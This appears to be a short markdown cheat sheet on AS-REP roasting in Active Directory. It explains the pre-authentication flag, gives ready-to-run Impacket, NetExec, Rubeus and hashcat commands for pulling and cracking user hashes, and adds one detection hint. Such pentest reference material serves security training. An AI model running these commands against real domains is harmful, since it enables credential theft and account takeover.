

# AS-REP roasting

### Affected object / attribute
**User object** with **`DONT_REQUIRE_PREAUTH`** (`userAccountControl` bit `0x400000`).

### Concept (deep)
Accounts without pre-authentication return an **AS-REP** encrypted with the user’s key **without prior authentication**. The attacker extracts the encrypted blob and cracks it offline.

### Attack flow (Mermaid)


### Exhaustive commands
```bash
# ── Impacket ─────────────────────────────────────────────────────────
impacket-GetNPUsers corp.local/ -usersfile users.txt \
  -dc-ip 10.10.10.5 -format hashcat -outputfile asrep.txt

# ── NetExec ──────────────────────────────────────────────────────────
nxc ldap 10.10.10.5 -u lowpriv -p 'Password123!' --asreproast asrep.txt

# ── Rubeus (Windows) ─────────────────────────────────────────────────
Rubeus.exe asreproast /format:hashcat /outfile:asrep.txt

# ── Crack ────────────────────────────────────────────────────────────
hashcat -m 18200 asrep.txt rockyou.txt
```

### Detection
**4768 `PreAuthType=0`** for accounts that normally require preauth.

---
